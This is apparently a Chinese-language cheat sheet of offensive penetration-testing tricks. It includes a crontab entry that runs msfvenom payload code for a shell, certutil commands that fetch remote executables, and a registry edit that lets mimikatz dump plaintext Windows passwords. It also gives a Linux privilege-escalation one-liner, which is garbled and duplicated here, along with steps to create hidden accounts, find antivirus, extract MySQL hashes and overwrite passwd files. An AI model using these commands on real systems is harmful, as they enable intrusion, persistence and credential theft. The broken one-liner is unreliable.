 # 奇淫技巧

1. 验证是否为docker环境

```bash
ls -alh /.dockerenv
```

2. ifconfig命令找不到，查看IP

```bash
cat /etc/hosts
```

3. curl探测端口

```bash
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null
curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null
```

4. 写计划任务拿shell

```bash
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /etc/crontab
```

5. URL后添加目录名访问后，自动加上`/`，说明目录存在
6. `w`命令查看当前登录用户
7. `last`命令查看登录记录
8. windows-JuicyPotato提权-MS16-075
9. web后门生成-weevely工具
10. 使用icon_hash="hash"查找隐形资产
11. wooyun镜像库搜索历史漏洞
12. 抓包auth参数校验，base64
13. 内存马优于webshell，webshell上线后立马用cs上线
14. windows创建隐藏账户，或激活guest更隐蔽
15. smb445登录windows
16. 任意文件读取，读日志文件
17. 上传web.config运行asp代码
18. CS读取进程 利用进程的绑定，避免shell被干掉
19. PHPINFO信息收集，网站根路径
20. windows查找杀软

```cmd
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

21. windows下，文件命名不能存在空格，以此构造文件名`xxx.php. (空格)`上传
22. linux一句话提权

```bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever exploit.conf" staprun -u whatever> exploit.conf; MODPROBE_OPTIONS="-C
```

23. 善用msf的auxiliary/server/socks4a模块建立socks代理，配合proxychains使用
24. windows下，使用Certutil.exe（or powershell）下载远程文件

```bash
certutil.exe -urlcache -split -f http://ip/test.exe /var/www/html/test.exe
```

25. MYSQL获取密码

```bash
#方式一
查看F:\MySQL\data\mysql下的user.MYD文件，010打开，寻找hash值，带星号的为40位哈希值，解密

#方式二
user.MYD/user.frm/user.MYI三个文件替换本地文件
然后
cd bin
mysqld --skip-grant-tables
-----------------------
另起一个cmd
mysql -u root
select user,password from mysql.user;
```

26. `/var/log/lastlog`和`/var/log/wtmp`这两个文件有记录登录ip
27. 文件包含到RCE

```
https://www.toutiao.com/i6718905823352848903/#&gid=1&pid=1
1. /proc/self/environ文件
2. Apache和SSH等日志文件
3. /var/mail日志记录
```

28. 不安全的jquery版本，过滤用户输入数据所使用的正则表达式存在缺陷，可能导致LOCATION.HASH跨站漏洞

```version
1.x系列低于1.12版本
2.x系列低于2.2版本
```

29. 远程连接失败解决方案

- 查询系统是否允许3389远程连接（1表示关闭,0表示开启）

```cmd
REGQUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

- 查看远程连接的端口

```cmd
REGQUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```

30. MSF模块-可执行的本地提权信息

```msf
use post/multi/recon/local_exploit_suggester
```

31. 手动端口探测

nc连接，随便输入一个字符串

```bash
nc -vv ip port
```

32. windows下命令行下载文件

```cmd
certutil.exe -urlcache -split -f http://xxxx
```

33. 导出Windows系统明文口令

Windows Server 2012默认无法使用mimikatz导出明文口令，部分Windows Server 2008也一样

```CMD
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

34. cp命令提权

赋值shadow文件到tmp目录，查看文件，使用john爆破密码，本地生成用户和passwd文件，覆盖目标的passwd文件提权



